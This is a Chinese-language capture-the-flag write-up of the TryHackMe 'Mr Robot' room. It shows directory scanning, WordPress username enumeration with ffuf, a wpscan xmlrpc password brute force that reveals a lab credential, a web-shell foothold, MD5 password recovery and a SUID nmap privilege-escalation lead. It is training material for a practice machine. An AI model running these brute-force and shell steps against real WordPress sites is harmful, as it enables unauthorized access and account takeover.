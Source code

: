 ```yaml
---
sidebar_position: 79
tags: [Easy, Linux, 密码破解-账号, SUID]
title: "Mr Robot CTF"
description: "Mr Robot CTF"
sidebar_label: "Mr Robot CTF"
slug: /tryhackme/79
---
```

# Mr Robot CTF
## 80
```bash
root@ip-10-10-163-117:~# gobuster dir -u http://10.10.136.237/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.136.237/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2023/09/10 15:02:14 Starting gobuster
===============================================================
.......
/wp-content (Status: 301)
/wp-login (Status: 200)
/wp-login.php (Status: 200)
/wp-includes (Status: 301)
/js (Status: 301)
/wp-register.php (Status: 301)
/readme.html (Status: 200)
/robots (Status: 200)
/robots.txt (Status: 200)
/dashboard (Status: 302)
```

根据目录扫描结果我判断这是一个 wordpress 网站, 当我查看 robots.txt 时我发现两个文件:

- 一个是 flag
- 一个是社工字典
  ![20240703202546](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703202546.png)

将字典下载到本地, 我发现其中由很多重复内容, 所以需要进行筛选
```bash
root@ip-10-10-163-117:~# wc fsocity.dic 
 858160  858160 7245381 fsocity.dic
root@ip-10-10-163-117:~# sort fsocity.dic | uniq > newfsocity.dic
root@ip-10-10-163-117:~# wc newfsocity.dic 
11451 11451 96747 newfsocity.dic
```

接着我访问了 wordpress 的登陆页面, 可以在此利用字典进行攻击首先枚举用户名

```bash
root@ip-10-10-163-117:~# ffuf -w newfsocity.dic -u http://10.10.136.237/wp-login.php -X POST -d "log=FUZZ&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.136.237%2Fwp-admin%2F&testcookie=1" -H "Content-Type: application/x-www-form-urlencoded" -b "Cookie: s_cc=true; s_fid=7A2D01B6AAC036E6-117CD012261C3CD3; s_nr=1694354564210; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check" -fw 136

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.136.237/wp-login.php
 :: Wordlist         : FUZZ: newfsocity.dic
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Cookie: Cookie: s_cc=true; s_fid=7A2D01B6AAC036E6-117CD012261C3CD3; s_nr=1694354564210; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
 :: Data             : log=FUZZ&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.136.237%2Fwp-admin%2F&testcookie=1
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 136
________________________________________________

elliot                  [Status: 200, Size: 3651, Words: 144, Lines: 59]
Elliot                  [Status: 200, Size: 3651, Words: 144, Lines: 59]
ELLIOT                  [Status: 200, Size: 3651, Words: 144, Lines: 59]
```

枚举出用户名接着进行密码的登陆测试

```bash
root@ip-10-10-163-117:~#  wpscan --password-attack xmlrpc -t 20 -U elliot -P ./newfsocity.dic --url http://10.10.136.237/
.....
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - elliot / ER28-0652
......
```

获取到密码之后我们就可以登陆网站上传 webSHELL 了

## 后渗透
### daemon
访问我们上传的 WEBShell 就可以获取到 Shell 了

![20240703202636](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703202636.png)

### daemon —> robot

在 robot 用户家目录发现一个文件使用 MD5 加密, 这应该就是用户 robot 的密码了

```bash
(remote) daemon@linux:/home/robot$ ls -al
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
(remote) daemon@linux:/home/robot$ cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b
(remote) daemon@linux:/home/robot$
```

![20240703202742](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703202742.png)

使用得到的密码进行登录

```bash
(remote) daemon@linux:/home/robot$ su robot
Password: 
robot@linux:~$ id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
robot@linux:~$
```

### robot —> root 

在枚举 SUID 时发现存在一个特殊的应用程序 [nmap#shell](https://gtfobins.github.io/gtfobins/nmap/#shell)

```bash
robot@linux:~$ find / -user root -perm -4000 -print 2>/dev/null
.....
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
....
```

![20240703202821](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703202821.png)
